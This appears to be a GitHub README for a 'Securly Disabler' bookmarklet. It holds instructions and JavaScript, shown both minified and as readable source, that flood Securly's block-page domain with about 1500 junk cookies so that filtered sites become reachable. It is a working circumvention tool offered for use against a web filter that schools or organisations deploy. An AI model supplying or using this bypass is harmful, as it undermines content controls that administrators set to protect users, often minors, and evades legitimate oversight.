 # Securly Disabler
First, go to a blocked page (ex. https://minecraft.net, https://coolmathgames.com, etc.).  
Then, bookmark that page.  
Modify that bookmark and add the following contents instead:
```js
javascript:if("https://useast-www.securly.com"!==window.location.origin)throw"flying bird";window.cookie="";var _=new Blob;function sleep(e){return new Promise(o=>setTimeout(o,e))}async function main(){for(let e=0;e<1500;e++)document.cookie=URL.createObjectURL(_)+"="+URL.createObjectURL(_),URL.revokeObjectURL(_),document.title="🐦 "+e+"/1500",await sleep(10);document.title="🐦 Done!",window.location.replace("https://google.com")}main();
```
Click on that bookmark, and wait for the "Page Unresponsive" to come up.  
Click exit, and then go to any blocked page.
## Source
```js
if (window.location.origin !== "https://useast-www.securly.com") throw "flying bird";
window.cookie = "";

var _ = new Blob();

function sleep(ms) {
  return new Promise((resolve) => setTimeout(resolve, ms));
}

async function main() {
    for (let i = 0; i < 1500; i++) {
        document.cookie = URL.createObjectURL(_) + "=" + URL.createObjectURL(_);
        URL.revokeObjectURL(_);

        document.title = "🐦 " + i + "/1500";
        await sleep(10);
    }

    document.title = "🐦 Done!";

    window.location.replace("https://google.com");
}

main();
```
